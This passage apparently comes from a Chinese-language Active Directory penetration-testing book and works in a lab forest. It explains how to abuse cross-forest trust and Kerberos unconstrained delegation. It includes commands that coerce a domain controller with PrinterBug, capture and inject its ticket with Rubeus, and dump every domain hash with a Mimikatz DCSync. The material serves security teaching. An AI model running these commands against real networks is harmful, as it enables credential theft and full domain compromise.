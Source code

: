 ![图 5.42 – 具有跨域和森林权限的用户和组](img/B18964_05_42.jpg)

图 5.42 – 具有跨域和森林权限的用户和组

在我们破坏了具有 `SPYS` 组成员身份的用户之后，我们可以在森林之间进行横向移动，并享受我们的新权限。

另一种破坏森林信任的方法是滥用**Kerberos 无约束委派**（**KUD**），在启用了 KUD 的本地机器和外部森林中的域控制器之间通过使用 PrinterBug 或 PetitPotam 强制认证。然而，只有在启用了 TGT 委派的情况下才可行，这一设置默认直到 2019 年 3 月才被禁用。在我们的案例中，我们通过 Rubeus 和 PrinterBug 帮助下复制了该攻击以强制认证：

```
Rubeus.exe monitor /filteruser:MEEREEN$ /interval:1 /nowrap
spool.exe meereen.essos.local kingslanding.sevenkingdoms.local
Rubeus.exe ptt /ticket:"base64_ticket_from_capture"
Mimikatz.exe "lsadump::dcsync /all /csv /domain:essos.local"
```

结果，我们从 `essos` 森林中导出了所有哈希值：
